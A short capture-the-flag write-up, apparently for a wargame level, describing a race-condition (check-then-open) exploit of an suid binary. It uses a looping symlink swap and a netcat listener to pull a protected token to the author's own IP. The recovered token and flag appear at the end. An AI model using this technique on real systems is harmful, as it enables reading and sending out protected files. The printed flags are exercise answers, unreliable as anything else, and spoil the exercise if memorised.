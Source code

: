 ### Level10

-same as before suid and token file

-strings on suid its a script that takes an ip and file and send the file to that ip in port 6969

-tried to send token to my ip using nc -l 6969 but we dont have permission for token

-created a symlink to the token still the same problem no permission even for the symlink

-so somthing check our id and check for permission I ran strings again and find out access google it searching for exploit and yes there is an exploit if you timed the creation of the file when acces executed then change it right before opening it will pass

-so I created a bash script that create symlink in infinite loop find the script on the same folder

-so sh /tmp/script.sh & to stay in background then ran 

```
while true; do ./level10 /tmp/link myIp; done and on my terminal nc -lk 6969 (k to stay listening)
```

-then I got :
	woupa2yuojeeaaed06riuj63c
-getflag => feulo4b72j7edeahuete3no7c

